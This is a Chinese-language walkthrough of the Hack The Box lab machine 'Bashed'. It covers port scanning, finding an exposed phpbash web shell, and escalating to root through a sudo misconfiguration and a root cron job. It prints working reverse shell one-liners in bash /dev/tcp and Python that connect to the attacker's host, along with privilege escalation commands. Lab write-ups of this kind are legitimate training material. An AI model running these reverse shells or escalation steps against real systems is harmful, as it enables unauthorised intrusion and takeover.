


Bashed Writeup
0x01 信息收集
先手 nmap。
1、TCP Scan
nmap -A -p- -oA nmap/tcp 10.10.10.68就开了一个 80。
- 80: apache 2.4.18，可能是漏洞版本，开放了 web 页面。
2、UDP Scan
nmap -sU -A -p- -oA nmap/udp 10.10.10.68未见开放。
共开放了 tcp 80 端口。
0x02 漏洞利用
1、Port 80
浏览器打开主页是 phpbash 的介绍（一个页面命令行），同时翻到子一个子页面给的交互示意动图，可以感觉到这里大概率是个立足点。
页面上获取不到更多信息，这个时候又到目录扫描的好时光了，照例 dirbuster 默认字典跑一下，既然是 php 站点，后缀先用默认的 .php。
扫到可疑文件。
/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
浏览器打开，是一个页面命令行，身份是普通用户 www-data。

页面下的 shell 多有不便，先弹一个 shell 出来。
这里应该是做了限制，尝试 bash、nc 均无效，甚至怀疑其了人生是不是做了网络隔离，但是用 curl 测试又是通的，遂把其他脚本也试了一轮，最后 python 成功反弹。
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'0x03 提权
首先关注一下 sudo 权限配置。
sudo -l这个配置意思是 以 scriptmanager 用户的身份无需密码执行任意命令。
狂喜，跑一个 id 看看，返回显示还是普通用户。
sudo -u scriptmanager id
并且尝试花式 su 到 root 都没用，一律需要输密码，切不上去，人傻了。
sudo -u scriptmanager su
sudo -u scriptmanager su -
sudo -u scriptmanager sudo su
su需要一个完全互动的 TTY，否则会报错su: must be run from a terminal。切换 TTY：python -c 'import pty;pty.spawn("/bin/bash")'
看一下 sudo 版本：1.8.16，查到一个漏洞 CVE-2019-14287，但是无法利用，似乎还需要当前用户的密码？
毫无头绪的时候思考一下盒子设计逻辑，首先 scriptmanager 肯定是突破口，但又不是管理员，那么是否想让我用 scriptmanager 做一些 www-data 做不到的事情？
切换到 scriptmanager。
sudo -u scriptmanager /bin/bash翻一下所属用户为 scriptmanager 的文件是否能发现端倪，定位到根目录下的 scripts 文件夹。

里面有两个文件，根据内容推断出: scriptmanager 的 python 脚本执行后会生成一个 root 的 txt，说明意味着这里的 python 文件会以 root 权限执行，即使暂时不知道原因。

所以在这里写入一个 python 的反弹 shell，试跑一下，还是普通用户。
说明肯定不是由用户来执行，而且 test.txt 的更新时间在不停变化，一定有个 root 的计划任务在一直跑这个 test.py。此时断开 shell，打开监听，等待计划任务执行。
果不其然得到一个 root shell。
这里的正确思路是：
使用普通用户监控 root-crontab 的工具：pspy
上传至靶机，赋权chmod 777 pspy64s，执行./pspy64s，观察日志，会发现定时任务明细内容。
提权后查看计划任务，确实。
0x04 攻击节点
信息收集 -> 目录扫描 -> 80.phpbash-RCE(www-data) -> sudo 配置不当切换用户(scriptmanager) -> crontab-python(root)